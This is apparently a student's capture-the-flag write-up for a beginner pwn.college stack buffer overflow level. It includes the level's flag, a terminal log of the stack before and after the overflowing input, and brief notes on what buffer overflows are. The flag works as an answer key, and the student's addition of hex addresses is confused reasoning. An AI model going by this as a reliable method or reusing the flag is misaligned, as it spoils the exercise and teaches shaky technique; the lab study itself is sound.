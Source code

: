 # Binary Exploitation 

## Challenge 1: Your First Overflow (easy)
### Solve 

Overflow a buffer on the stack to set the right conditions to obtain the flag!  

**Flag:** `pwn.college{4zqXXF2gV06aRRpJjGP2fzULUFh.dlDOywyMwAzNzEzW}`
change ownership and read the flag

METHOD:  
1. To find the program file (.c), search in ~ first.  
2. no such file, navigate back to sys files using cd ..  
3. file found in challenge directory.  
4. after executing, it says that a 'win' variable prints the flag when it's non-zero, i.e. You can make this variable be non-zero by overflowing the input buffer  
5. So to overflow, input 0x7fff1ba9a3a0+0x7fff1ba9a3bc,  
which is input buffer start+where win is located  or  input buffer start+end buffer because that would overflow the input buffer too  




```bash
hacker@binary-exploitation~your-first-overflow-easy:/$ /challenge/binary-exploitation-first-overflow-w
The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffeb5d55fc0 (rsp+0x0000) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffeb5d55fc8 (rsp+0x0008) | 68 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57168 |
| 0x00007ffeb5d55fd0 (rsp+0x0010) | 58 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57158 |
| 0x00007ffeb5d55fd8 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007ffeb5d55fe0 (rsp+0x0020) | a0 24 50 be d7 72 00 00 | 0x000072d7be5024a0 |
| 0x00007ffeb5d55fe8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d55ff0 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d55ff8 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d56000 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d56008 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffeb5d56010 (rsp+0x0050) | b0 11 40 00 00 00 00 00 | 0x00000000004011b0 |
| 0x00007ffeb5d56018 (rsp+0x0058) | 00 63 a3 11 7d 3e 1a e1 | 0xe11a3e7d11a36300 |
| 0x00007ffeb5d56020 (rsp+0x0060) | 60 70 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57060 |
| 0x00007ffeb5d56028 (rsp+0x0068) | 98 26 40 00 00 00 00 00 | 0x0000000000402698 |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffeb5d55fc0, and our base pointer points to 0x7ffeb5d56020.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7ffeb5d55ff0, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 26 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, when this variable is non-zero, the flag will be printed.
You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x7ffeb5d5600c, 28 bytes after the start of your input buffer.

We have disabled the following standard memory corruption mitigations for this challenge:
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

You have chosen to send 4096 bytes of input!
This will allow you to write from 0x7ffeb5d55ff0 (the start of the input buffer)
right up to (but not including) 0x7ffeb5d56ff0 (which is 4070 bytes beyond the end of the buffer).
Send your payload (up to 4096 bytes)!
0x7fff1ba9a3bc+0x7ffeb5d56ff0
You sent 30 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffeb5d55fc0 (rsp+0x0000) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffeb5d55fc8 (rsp+0x0008) | 68 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57168 |
| 0x00007ffeb5d55fd0 (rsp+0x0010) | 58 71 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57158 |
| 0x00007ffeb5d55fd8 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007ffeb5d55fe0 (rsp+0x0020) | a0 24 50 be 1e 00 00 00 | 0x0000001ebe5024a0 |
| 0x00007ffeb5d55fe8 (rsp+0x0028) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffeb5d55ff0 (rsp+0x0030) | 30 78 37 66 66 66 31 62 | 0x6231666666377830 |
| 0x00007ffeb5d55ff8 (rsp+0x0038) | 61 39 61 33 62 63 2b 30 | 0x302b636233613961 |
| 0x00007ffeb5d56000 (rsp+0x0040) | 78 37 66 66 65 62 35 64 | 0x6435626566663778 |
| 0x00007ffeb5d56008 (rsp+0x0048) | 35 36 66 66 30 0a 00 00 | 0x00000a3066663635 |
| 0x00007ffeb5d56010 (rsp+0x0050) | b0 11 40 00 00 00 00 00 | 0x00000000004011b0 |
| 0x00007ffeb5d56018 (rsp+0x0058) | 00 63 a3 11 7d 3e 1a e1 | 0xe11a3e7d11a36300 |
| 0x00007ffeb5d56020 (rsp+0x0060) | 60 70 d5 b5 fe 7f 00 00 | 0x00007ffeb5d57060 |
| 0x00007ffeb5d56028 (rsp+0x0068) | 98 26 40 00 00 00 00 00 | 0x0000000000402698 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7ffeb5d55ff0
- the saved frame pointer (of main) is at 0x7ffeb5d56020
- the saved return address (previously to main) is at 0x7ffeb5d56028
- the saved return address is now pointing to 0x402698.
- the canary is stored at 0x7ffeb5d56018.
- the canary value is now 0xe11a3e7d11a36300.
- the address of the win variable is 0x7ffeb5d5600c.
- the value of the win variable is 0xa30.

You win! Here is your flag:
pwn.college{4zqXXF2gV06aRRpJjGP2fzULUFh.dlDOywyMwAzNzEzW}


Goodbye!
```


### New Learnings
1. A buffer overflow occurs when the amount of data exceeds the storage capacity of the memory buffer.  
2. As a result, the program attempting to write the data to the buffer overwrites adjacent memory locations.   
3. Buffer overflow attack- A buffer overflow happens when someone gives a program more data than it can handle,  
messing with memory to make the program do something unintended or run malicious code.  
4. If they know where things are in memory, they can target specific parts to take control.  


### References
Slides  
https://www.imperva.com/learn/application-security/buffer-overflow/  
